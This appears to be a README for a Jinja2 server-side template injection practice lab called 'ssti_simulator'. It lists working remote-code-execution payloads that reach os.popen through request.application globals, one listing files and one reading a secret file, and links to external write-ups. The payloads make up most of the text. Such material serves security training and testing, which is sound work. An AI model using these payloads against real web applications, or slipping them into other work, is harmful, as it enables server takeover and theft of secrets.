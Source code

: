 # ssti_simulator

## Remote Code Execution through SSTI request.application
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secret.txt').read() }}

## Remote Code Exection through SSTI String.__class__ eg: "".__class__
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

